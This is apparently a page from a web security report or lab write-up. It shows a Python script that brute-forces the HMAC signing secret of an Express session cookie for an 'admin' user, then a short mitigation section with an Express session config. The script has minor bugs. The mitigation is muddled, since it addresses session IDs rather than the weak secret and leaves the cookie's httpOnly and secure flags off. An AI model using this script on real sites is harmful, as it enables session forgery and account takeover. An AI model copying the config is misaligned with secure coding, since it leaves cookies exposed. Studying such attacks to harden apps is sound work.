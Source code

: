 \documentclass[]{article}
\begin{document}
\begin{lstlisting}
defalut_charset = string.ascii_letters + string.ascii_digits + string.punctuation
def hmac_bruteforce(target_hmac, user, charset=defalut_charset, min_key_length=1, max_key_length=10):
    for key_length in range(min_key_length, max_key_length + 1):
        for j, key_attempt in tqdm(enumerate(itertools.product(charset, repeat=key_length)), total=(len(charset)*key_length), unit="attempt"):
            key = ''.join(key_attempt)
            generated_hmac = hmac.new(key.encode(), user.encode(), hashlib.sha256).digest()
            generated_hmac_b64 = base64.b64encode(generated_hmac)
            hmac_obtained = generated_hmac_b64.decode("ascii").replace("=", "")

            if hmac_obtained == target_hmac:
                return key
            if j % 3_000_000 == 0:
                print(f"Trying {key=}")

    return None

if __name__ == "__main__":
    cookie = "s%3Aadmin.H9hJuvnMJMPBP4MAXYwgcshE5CZFhIDo6dR66nIadIw"
    user = cookie.split(".")[0][4:]
    target_hmac = cookie.split(".")[-1]
    print(f"Bruteforcing {user=} {target_hmac=}")
    found_key = hmac_bruteforce(target_hmac, user, charset=string.ascii_lowercase, min_key_length=6)

    if found_key:
        print(f"Chiave trovata: {found_key}")
    else:
        print("Chiave non trovata")
\end{lstlisting}
The result is: 
\begin{center}
\includegraphics[width=8cm]{images/brute_force.eps}
\end{center}
 \textbf{Mitigation:} To mitigate this attack, it is necessary to change the method of generating the session ID, so that it is unpredictable. An example is to use a UUID.
\begin{lstlisting}
app.use(
    session({
        secret: process.env.SESSION_SECRET,
        saveUninitialized: true,
        resave: true,
				// Default id generation is secure enough by using uuid
        cookie: {
            httpOnly: false,
            secure: false,
            sameSite: "strict",
            maxAge: 36000000000
        }
    })
);
\end{lstlisting}

\subsection{Software and Data Integrity Failures}
Software and data integrity failures relate to code and infrastracture that does not protect against integrity violations. 
\end{document}
